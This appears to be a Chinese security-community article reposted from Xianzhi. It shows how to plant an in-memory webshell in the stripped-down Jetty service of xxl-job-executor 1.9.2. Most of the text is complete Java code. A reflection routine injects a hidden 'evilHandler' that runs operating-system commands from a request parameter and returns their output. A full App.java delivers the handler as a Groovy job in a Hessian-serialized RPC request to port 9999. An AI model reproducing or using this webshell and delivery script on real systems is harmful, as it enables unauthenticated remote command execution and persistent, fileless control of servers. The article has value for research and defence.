





# 实现xxl-job-executor 1.9.2阉割版Jetty服务的Handler内存马-先知社区

> **来源**: https://xz.aliyun.com/news/16088  
> **文章ID**: 16088

---

# 前言

在对一个不出网的`xxl-job-executor 1.x`服务进行反序列化漏洞利用时，有回显的命令执行就显得尤为重要。


但是目前公开可查的内存马暂无`xxl-job-executor 1.x.x`版本。有两点原因

1. 目前`xxl-job`已进入2.0时代，老版本无人研究或未公开。
2. `xxl-job 1.x`使用的中间件是jetty，故`2.x`版本的netty内存马和回显方法无法适用`1.x`。



**叠甲：**笔者对`xxl-job`的架构和`jetty`中间件服务的理解也是通过这次调试和查阅学习的，欢迎师傅指教。

# 服务简介

下载 <https://github.com/xuxueli/xxl-job/tree/v1.9.2> ，其目录大致如下：

```
xxl-job-1.9.2
├── doc
│   ├── db
│   └── images
├── xxl-job-admin
│   └── src
├── xxl-job-core
│   ├── src
│   └── target
└── xxl-job-executor-samples
    ├── xxl-job-executor-sample-jfinal
    ├── xxl-job-executor-sample-nutz
    ├── xxl-job-executor-sample-spring
    └── xxl-job-executor-sample-springboot
```

* xxl-job-admin 是管理端的代码，和本文无关。
* xxl-job-core 存放了管理端和执行器的核心代码
* xxl-job-executor-samples 放了几个不同服务下的demo

启动`xxl-job-executor-sample-springboot`会默认监听`8081`和`9999`端口：

* `8081`端口是`springboot`的服务端口
* `9999`端口是`jetty`服务监听`job`的端口

# 挖掘过程

> 实战遇到的公网环境只开放了`9999`端口的`jetty`服务。所以我们重点关注`9999`端口的`jetty`服务。

最开始想取巧，找师傅们现成的payload去微调，但是看了一些`jetty`内存马的文章，都是通过需要寻找`Jetty.servlet`相关的类，再进一步实现内存马。

但是`xxl-job-executor`的`jetty`服务是阉割版的，没有引入`servlet`包，所以没有`servlet`相关的类。



没办法，我们只能审计`xxl-job-executor jetty`服务启动的整个流程：

`jetty`服务启动时，会注册一个的`handler`，名为`JettyServerHandler`



在该`JettyServerhandler`中我们可以看到熟悉的`xxl-job hessian2`反序列化触发代码，在此次下断点调试。



```
handle:33, JettyServerHandler (com.xxl.job.core.rpc.netcom.jetty.server)
handle:110, HandlerCollection (org.eclipse.jetty.server.handler)
handle:97, HandlerWrapper (org.eclipse.jetty.server.handler)
handle:499, Server (org.eclipse.jetty.server)
handle:311, HttpChannel (org.eclipse.jetty.server)
onFillable:258, HttpConnection (org.eclipse.jetty.server)
run:544, AbstractConnection$2 (org.eclipse.jetty.io)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:748, Thread (java.lang)
```

在`org.eclipse.jetty.server.handler.HandlerCollection#handle`中我们可以看到服务循环从`_handlers`取`handler`处理请求


所以我们的目标就是向`Handler[] _handlers`中写入构造的恶意`handler`

使用`c0ny1`师傅的`java-object-searcher`我们可以找到获取`_handler`的路径

```
TargetObject = {com.xxl.job.core.thread.JobThread}
  ---> group = {java.lang.ThreadGroup}
   ---> threads = {class [Ljava.lang.Thread;}
    ---> [4] = {java.lang.Thread}
     ---> target = {com.xxl.job.core.rpc.netcom.jetty.server.JettyServer$1}
      ---> this$0 = {com.xxl.job.core.rpc.netcom.jetty.server.JettyServer}
       ---> server = {org.eclipse.jetty.server.Server}
         ---> _handler = {org.eclipse.jetty.server.handler.HandlerCollection}
```

接下来就很简单，遍历`Thread`找到`_handler`后`setField`构造的恶意`Hnadler[]`即可。示例如下：

DemoGlueJobHandler.java

```
package com.xxl.job.executor.service.jobhandler;

import com.xxl.job.core.biz.model.ReturnT;
import com.xxl.job.core.handler.IJobHandler;
import org.eclipse.jetty.server.Handler;
import org.eclipse.jetty.server.Request;
import org.eclipse.jetty.server.Server;
import org.eclipse.jetty.server.handler.AbstractHandler;
import org.eclipse.jetty.server.handler.HandlerCollection;

import javax.servlet.ServletException;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.*;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Arrays;

public class DemoGlueJobHandler extends IJobHandler {

    @Override
    public ReturnT<String> execute(String param) throws Exception {
        ThreadGroup             group   = Thread.currentThread().getThreadGroup();
        java.lang.reflect.Field threads = group.getClass().getDeclaredField("threads");
        threads.setAccessible(true);
        Thread[] allThreads = (Thread[]) threads.get(group);
        System.out.println(allThreads.length);
        for (Thread thread : allThreads) {

            if(thread.getClass().getName().contains("JobThread")){
                Thread[] tThreads = (Thread[]) getField(thread.getThreadGroup(),"threads");
                for(Thread tThread: tThreads){
                    Object target = getField(tThread,"target");
                    if(target.getClass().getName().contains("jetty.server.JettyServer")){
                        Object JettyServer = getField(target, "this$0");
                        Server server = (Server) getField(JettyServer, "server");
                        Handler[] _handlers = server.getHandlers();
                        ArrayList<Handler> handlerArrayList= new ArrayList<>();
                        handlerArrayList.add(new evilHandler());
                        handlerArrayList.addAll(Arrays.asList(((HandlerCollection) _handlers[0]).getHandlers()));
                        setField(server.getHandler(),"_handlers", handlerArrayList.toArray(new Handler[0]));

                    }
                }
            }
        }

        return ReturnT.SUCCESS;
    }

    public Object getField(Object obj, String fieldName){
        try {
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            obj = field.get(obj);
        } catch (IllegalAccessException e) {

            return null;
        } catch (NoSuchFieldException e) {

            return null;
        }
        return obj;
    }

    private static void setField(Object o, String k,Object v) throws Exception{
        Field f;
        try{
            f = o.getClass().getDeclaredField(k);
        }catch (NoSuchFieldException e){
            f = o.getClass().getSuperclass().getDeclaredField(k);
        }catch (Exception e1){
            f = o.getClass().getSuperclass().getSuperclass().getDeclaredField(k);
        }
        f.setAccessible(true);
        f.set(o,v);
    }
    public class evilHandler extends AbstractHandler {

        @Override
        public void handle(String s, Request request, HttpServletRequest httpServletRequest, HttpServletResponse response) throws IOException, ServletException {
            if(!s.contains("dmc")){
                return;
            }
            response.setContentType("text/html;charset=utf-8");
            response.setStatus(HttpServletResponse.SC_OK);
            request.setHandled(true);
            Process process = Runtime.getRuntime().exec(request.getParameter("q"));

            InputStream inputStream = process.getInputStream();
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream, "UTF-8"));
            String line;
            String res="";
            while ((line = reader.readLine()) != null) {
                res+=line+"\n";
            }

            OutputStream out = response.getOutputStream();
            out.write(res.getBytes());
            out.flush();
            out.close();
        }
    }

}

```

# 攻击利用

替换 <https://github.com/OneSourceCat/XxlJob-Hessian-RCE/> 的App.java即可

```
package com.example;

import com.xxl.job.core.biz.model.TriggerParam;
import com.xxl.job.core.rpc.codec.RpcRequest;
import com.xxl.rpc.remoting.net.params.XxlRpcRequest;

import com.xxl.rpc.serialize.impl.HessianSerializer;
import org.asynchttpclient.AsyncCompletionHandler;
import org.asynchttpclient.AsyncHttpClient;
import org.asynchttpclient.DefaultAsyncHttpClient;
import org.asynchttpclient.Response;

import java.io.IOException;
import java.util.Date;

public class App {

    private static void sendData(String url, byte[] bytes) {
        AsyncHttpClient c = new DefaultAsyncHttpClient();

        try{
            c.preparePost(url)
                    .setBody(bytes)
                    .execute(new AsyncCompletionHandler<Response>() {
                        @Override
                        public Response onCompleted(Response response) throws Exception {
                            System.out.println("Server Return Data: ");
                            System.out.println(response.getResponseBody());
                            return response;
                        }

                        @Override
                        public void onThrowable(Throwable t) {
                            System.out.println("HTTP出现异常");
                            t.printStackTrace();
                            super.onThrowable(t);
                        }
                    }).toCompletableFuture().join();

            c.close();
        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            try {
                c.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }


    }

    public static void main( String[] args ) throws Exception {
//
        String code = "package com.xxl.job.executor.service.jobhandler;\n" +
                "\n" +
                "import com.xxl.job.core.biz.model.ReturnT;\n" +
                "import com.xxl.job.core.handler.IJobHandler;\n" +
                "import org.eclipse.jetty.server.Handler;\n" +
                "import org.eclipse.jetty.server.Request;\n" +
                "import org.eclipse.jetty.server.Server;\n" +
                "import org.eclipse.jetty.server.handler.AbstractHandler;\n" +
                "import org.eclipse.jetty.server.handler.HandlerCollection;\n" +
                "\n" +
                "import javax.servlet.ServletException;\n" +
                "import javax.servlet.http.HttpServletRequest;\n" +
                "import javax.servlet.http.HttpServletResponse;\n" +
                "import javax.servlet.http.HttpSession;\n" +
                "import java.io.*;\n" +
                "import java.lang.reflect.Field;\n" +
                "import java.util.ArrayList;\n" +
                "import java.util.Arrays;\n" +
                "\n" +
                "public class DemoGlueJobHandler extends IJobHandler {\n" +
                "\n" +
                "    @Override\n" +
                "    public ReturnT<String> execute(String param) throws Exception {\n" +
                "        ThreadGroup             group   = Thread.currentThread().getThreadGroup();\n" +
                "        java.lang.reflect.Field threads = group.getClass().getDeclaredField(\"threads\");\n" +
                "        threads.setAccessible(true);\n" +
                "        Thread[] allThreads = (Thread[]) threads.get(group);\n" +
                "        System.out.println(allThreads.length);\n" +
                "        for (Thread thread : allThreads) {\n" +
                "\n" +
                "            if(thread.getClass().getName().contains(\"JobThread\")){\n" +
                "                Thread[] tThreads = (Thread[]) getField(thread.getThreadGroup(),\"threads\");\n" +
                "                for(Thread tThread: tThreads){\n" +
                "                    Object target = getField(tThread,\"target\");\n" +
                "                    if(target.getClass().getName().contains(\"jetty.server.JettyServer\")){\n" +
                "                        Object JettyServer = getField(target, \"this\\$0\");\n" +
                "                        Server server = (Server) getField(JettyServer, \"server\");\n" +
                "                        Handler[] _handlers = server.getHandlers();\n" +
                "                        ArrayList<Handler> handlerArrayList= new ArrayList<>();\n" +
                "                        handlerArrayList.add(new evilHandler());\n" +
                "                        handlerArrayList.addAll(Arrays.asList(((HandlerCollection) _handlers[0]).getHandlers()));\n" +
                "                        setField(server.getHandler(),\"_handlers\", handlerArrayList.toArray(new Handler[0]));\n" +
                "\n" +
                "                    }\n" +
                "                }\n" +
                "            }\n" +
                "        }\n" +
                "\n" +
                "        return ReturnT.SUCCESS;\n" +
                "    }\n" +
                "\n" +
                "    public Object getField(Object obj, String fieldName){\n" +
                "        try {\n" +
                "            Field field = obj.getClass().getDeclaredField(fieldName);\n" +
                "            field.setAccessible(true);\n" +
                "            obj = field.get(obj);\n" +
                "        } catch (IllegalAccessException e) {\n" +
                "\n" +
                "            return null;\n" +
                "        } catch (NoSuchFieldException e) {\n" +
                "\n" +
                "            return null;\n" +
                "        }\n" +
                "        return obj;\n" +
                "    }\n" +
                "\n" +
                "    private static void setField(Object o, String k,Object v) throws Exception{\n" +
                "        Field f;\n" +
                "        try{\n" +
                "            f = o.getClass().getDeclaredField(k);\n" +
                "        }catch (NoSuchFieldException e){\n" +
                "            f = o.getClass().getSuperclass().getDeclaredField(k);\n" +
                "        }catch (Exception e1){\n" +
                "            f = o.getClass().getSuperclass().getSuperclass().getDeclaredField(k);\n" +
                "        }\n" +
                "        f.setAccessible(true);\n" +
                "        f.set(o,v);\n" +
                "    }\n" +
                "    public class evilHandler extends AbstractHandler {\n" +
                "\n" +
                "        @Override\n" +
                "        public void handle(String s, Request request, HttpServletRequest httpServletRequest, HttpServletResponse response) throws IOException, ServletException {\n" +
                "            if(!s.contains(\"dmc\")){\n" +
                "                return;\n" +
                "            }\n" +
                "            response.setContentType(\"text/html;charset=utf-8\");\n" +
                "            response.setStatus(HttpServletResponse.SC_OK);\n" +
                "            request.setHandled(true);\n" +
                "            Process process = Runtime.getRuntime().exec(request.getParameter(\"q\"));\n" +
                "\n" +
                "            InputStream inputStream = process.getInputStream();\n" +
                "            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream, \"UTF-8\"));\n" +
                "            String line;\n" +
                "            String res=\"\";\n" +
                "            while ((line = reader.readLine()) != null) {\n" +
                "                res+=line+\"\\n\";\n" +
                "            }\n" +
                "\n" +
                "            OutputStream out = response.getOutputStream();\n" +
                "            out.write(res.getBytes());\n" +
                "            out.flush();\n" +
                "            out.close();\n" +
                "        }\n" +
                "    }\n" +
                "\n" +
                "}";
        System.out.println(code);

        TriggerParam params = new TriggerParam();
        params.setJobId(10);
        params.setExecutorBlockStrategy("SERIAL_EXECUTION");
        params.setLogId(10);
        params.setGlueType("GLUE_GROOVY");
        params.setGlueSource(code);
        params.setGlueUpdatetime((new Date()).getTime());

        RpcRequest rpcRequest = new RpcRequest();

        rpcRequest.setClassName("com.xxl.job.core.biz.ExecutorBiz");
        rpcRequest.setMethodName("run");
        rpcRequest.setParameterTypes(new Class[]{TriggerParam.class});
        rpcRequest.setParameters(new Object[] {params});
        rpcRequest.setCreateMillisTime((new Date()).getTime());

        HessianSerializer serializer = new HessianSerializer();

        byte[] data = serializer.serialize(rpcRequest);

        sendData("http://127.0.0.1:9999", data);
    }
}

```

结果：


